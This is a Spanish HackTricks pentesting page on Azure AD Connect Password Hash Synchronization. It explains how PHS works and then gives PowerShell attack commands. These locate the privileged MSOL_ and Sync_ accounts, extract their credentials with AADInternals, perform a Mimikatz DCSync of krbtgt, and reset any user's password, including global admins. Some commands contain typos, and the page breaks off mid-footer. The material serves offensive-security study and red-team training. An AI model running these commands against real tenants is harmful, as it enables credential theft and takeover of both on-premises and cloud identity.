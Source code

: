 # PHS - Sincronización de Hash de Contraseña

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## Información Básica

La **sincronización de hash de contraseña** es uno de los métodos de inicio de sesión utilizados para lograr la identidad híbrida. Azure AD Connect sincroniza un hash, del hash, de la contraseña de un usuario desde una instancia de Active Directory local a una instancia de Azure AD basada en la nube.

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Es el método **más común** utilizado por las empresas para sincronizar un AD local con Azure AD.

Todos los **usuarios** y un **hash de los hashes de las contraseñas** se sincronizan desde el local a Azure AD. Sin embargo, las **contraseñas en texto claro** o los **hashes originales** no se envían a Azure AD.\
Además, los grupos de seguridad **integrados** (como los administradores de dominio...) no se sincronizan con Azure AD.

La **sincronización de hashes** ocurre cada **2 minutos**. Sin embargo, de forma predeterminada, la **caducidad de la contraseña** y la **caducidad de la cuenta** no se sincronizan en Azure AD. Por lo tanto, un usuario cuya **contraseña local ha caducado** (no cambiada) puede seguir **accediendo a los recursos de Azure** utilizando la contraseña antigua.

Cuando un usuario local quiere acceder a un recurso de Azure, la **autenticación se realiza en Azure AD**.

**PHS** es necesario para funciones como **Identity Protection** y AAD Domain Services.

## Pivoteo

Cuando se configura PHS, algunos **cuentas privilegiadas** se crean automáticamente:

* La cuenta **`MSOL_<installationID>`** se crea automáticamente en el AD local. A esta cuenta se le otorga un rol de **Cuentas de Sincronización de Directorio** (ver [documentación](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) lo que significa que tiene **permisos de replicación (DCSync) en el AD local**.
* Se crea una cuenta **`Sync_<nombre del servidor ADConnect local>_installationID`** en Azure AD. Esta cuenta puede **restablecer la contraseña de CUALQUIER usuario** (sincronizado o solo en la nube) en Azure AD.

Las contraseñas de las dos cuentas privilegiadas anteriores se **almacenan en un servidor SQL** en el servidor donde se **instala Azure AD Connect.** Los administradores pueden extraer las contraseñas de esos usuarios privilegiados en texto claro.

Si el **servidor donde se instala Azure AD Connect** está unido al dominio (recomendado en la documentación), es posible encontrarlo con:

```powershell
# Módulo ActiveDirectory
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

# Módulo Azure AD
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

### AzureAD -> Local

```powershell
# Una vez que se ha comprometido el servidor de Azure AD Connect, se pueden extraer credenciales con el módulo AADInternals
Get-AADIntSyncCredentials

# Usando las credenciales de la cuenta MSOL_*, se puede ejecutar DCSync contra el AD local
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

### Local -> AzureAD

Comprometiendo la cuenta `Sync_*` es posible **restablecer la contraseña** de cualquier usuario (incluidos los administradores globales)

```powershell
# Este comando, ejecutado previamente, también nos dará las credenciales de esta cuenta
Get-AADIntSyncCredentials

# Obtener token de acceso para la cuenta Sync_*
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Obtener administradores globales
Get-AADIntGlobalAdmins

# Obtener el ImmutableId de un usuario local en Azure AD (este es el identificador único derivado del GUID local)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Restablecer la contraseña del usuario
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Ahora es posible acceder a Azure AD con la nueva contraseña y al local con la antigua (los cambios de contraseña no se sincronizan)
```

También es posible **modificar las contraseñas de los usuarios solo en la nube** (aunque esto no es lo esperado)

```powershell
# Para restablecer la contraseña de un usuario solo en la nube, necesitamos su CloudAnchor que se puede calcular a partir de su cloud objectID
# El CloudAnchor tiene el formato USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Restablecer la contraseña
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```

### Seamless SSO

Es posible utilizar Seamless SSO con PTA, lo que es vulnerable a otros abusos. Compruébalo en:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https